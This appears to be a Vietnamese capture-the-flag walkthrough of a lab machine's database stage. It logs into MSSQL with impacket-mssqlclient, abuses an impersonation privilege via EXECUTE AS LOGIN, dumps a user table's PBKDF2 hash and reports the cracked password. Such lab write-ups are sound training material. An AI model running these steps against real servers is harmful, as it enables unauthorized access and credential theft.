







# Recon


- Giờ ta sẽ thử với credential được cung cấp ở đề bài : `kevin / iNa2we6haRj2gaw!`
- Sử dụng Impacket’s mssqlclient để kết nối dịch vụ database 

```code
impacket-mssqlclient kevin:'iNa2we6haRj2gaw!'@10.129.4.21
```


- Như vậy đã vào được Database
- Giờ sẽ chạy `enum_impersonate` để xem các cấu hình sai 


- Như vậy kevin có thể giả mạo được appdev 
- Đổi ngữ cảnh sử dụng lệnh sau `EXECUTE AS LOGIN = 'appdev';`



- Liệt kê các database đang có `SELECT name FROM sys.databases;` 



- Giờ mình sẽ liệt kê `financial_planner` để xem các bảng 
```code
USE financial_planner;
select name from financial_planner.sys.tables;
```


- Đọc bảng user 



- Thông tin quan trọng lấy được passwd hash `pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133`

- Sau khi crack ta được **iloveyou1**


